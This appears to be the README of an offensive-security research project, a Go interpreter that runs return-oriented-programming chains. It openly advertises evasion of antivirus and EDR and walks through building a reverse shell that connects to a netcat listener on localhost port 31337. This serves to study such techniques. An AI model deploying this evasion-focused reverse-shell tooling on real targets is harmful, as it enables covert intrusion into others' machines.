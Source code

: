 # Go-based ROP interpreter

This repository contains tooling that demonstrates implementing a very
primitive interpreter using [ROP gadgets][rop] in Go. It is for educational
use only. Why Go? Because it is a high-level language that runs just about
anywhere and is easy to work with.

[@SeungKang][sk] helped a ton with this crazy idea - thank you :)

[rop]: https://en.wikipedia.org/wiki/Return-oriented_programming
[sk]: https://github.com/SeungKang

In theory, a ROP-based interpreter provides:

- Obfuscation against intent and reverse engineering
- More control over code at runtime (i.e., possible to clear payloads from
  memory / avoid leaving behind artifacts)
- Defense against detection by antivirus / EDR (since we are reusing CPU
  instructions that already exist in the executable's code segment)

## Tooling

- [`compiler`](compiler/main.go) - Translates a human-readable ROP chain
  source file into a binary "unresolved ROP chain". The file format is
  defined in the compiler source file
- [`injector`](injector/main.go) - Injects binary ROP gadgets into `runner`
  (i.e., takes the binary output of `nasm` and overwrites a dummy function
  in runner)
- [`runner`](runner/main.go) - Executes an unresolved ROP chain produced
  by `compiler`

## How it works (tl;dr summary)

1. Generic ROP gadgets are generated using nasm ([an example][example-gadgets])
2. ROP gadgets are injected into the runner exectuable using `injector`
3. An "unresolved ROP chain" is defined according to the syntax documented
   by the `compiler` program ([an example][example-urc])
4. The unresolved ROP chain is compiled to binary using `compiler`
5. The `runner` program parses the unresolved ROP chain, looks up the gadgets
   from the unresolved ROP chain and executes them

[example-gadgets]: examples/rop-gadgets.asm
[example-urc]: examples/reverse-shell-chain.txt

## How it works (in detail)

Users must first define a list of ROP gadgets using a tool like `nasm` and
compile the assembly into binary. Each gadget acts as a reusable building
block for one or more programs. Since ROP gadgets are so generic, they can
be shared amongst multiple programs.

The ROP gadgets are then injected into the [`runner`](runner/main.go)
program using the [`injector`](injector/main.go) program. The `runner`
acts as an interpreter; it parses a user-defined "unresolved ROP chain"
at runtime. The unresolved ROP chain is generated using a custom file
syntax fed into the [`compiler`](compiler/main.go).

In the real world, the `runner` would be executed on the target computer.
A hacker would pass various unresolved ROP chain payloads through an
authenticated network channel to the runner. Here, the `runner` reads
the chain from the filesystem.

Users define a ROP chain in a human-readable format using a ROP chain source
file. This source file is compiled into a binary blob using the `compiler`
program. The resulting blob consists of the ROP gadgets' offsets that the
interpreter must resolve at runtime.

For example, the following source file produces an "unresolved ROP chain"
that executes the `socket` system call:

```
; socket syscall
g: pop rdi; ret
d: 0x02
g: pop rsi; ret
d: 0x01
g: pop rdx; ret
d: 0x06
g: pop rax; ret
d: 0x29
g: syscall; ret
```

## Example

- Requirements:
  - Debian (x86 64-bit CPU)
  - Go
  - nasm
  - netcat (nc)

In this example, we will compile a ROP chain that uses the ROP gadgets
provided by the `runner` program to execute a reverse shell. The reverse
shell will connect to 127.0.0.1 port 31337.

#### 1. Compile the ROP gadgets

```console
$ mkdir build
$ nasm -f bin -o build/rop-gadgets.bin examples/rop-gadgets.asm
```

Note: ROP gadgets can be examined with objdump like so:

```console
$ objdump -D -M intel,x86-64 -b binary -m i386 build/rop-gadgets.bin
(...)
0000000000000000 <.data>:
   0:	c3                   	ret    
   1:	48 89 e7             	mov    rdi,rsp
   4:	41 5a                	pop    r10
   6:	c3                   	ret
(...)
```

#### 2. Build the runner and inject ROP gadgets

```console
$ go build -o build/runner-orig runner/main.go 
$ go run injector/main.go -t elf -f build/runner-orig -n main.RopRegion -i build/rop-gadgets.bin > build/runner-injected
$ chmod +x build/runner-injected
```

#### 3. Compile the ROP chain

```console
$ go run compiler/main.go -gadgets build/rop-gadgets.bin -src examples/reverse-shell-chain.txt > build/reverse-shell-chain.bin
```

#### 4. Start netcat listener

```console
$ nc -v -l -p 31337
listening on [any] 31337 ...
```

#### 5. Run the ROP chain

Note: We use `-fork` here because the Go program will crash without it.
We *think* the garbage collector interferes with our ROP chain, so we
disable it by forking to a single-threaded process (meaning no other
threads can interfere with our payload's execution).

```console
$ ./build/runner-injected -fork build/reverse-shell-chain.bin
2024/08/25 10:55:09 pc: 0x4a89d7 | pc line: 81 | main: 0x4a87c0 | uncalled: 0x4a8fc0
0xc000093578: 0x4142434445464748
0xc000093580: 0x4a89d7
0xc000093588: 0x51
0xc000093590: 0x18
0xc000093598: 0x4a8fc0
0xc0000935a0: 0xc0000935a0
0xc0000935a8: 0xc0000935a0
(...)
```

#### 6. Check if netcat received a connection

```
connect to [127.0.0.1] from localhost [127.0.0.1] 33130
whoami
user0
```
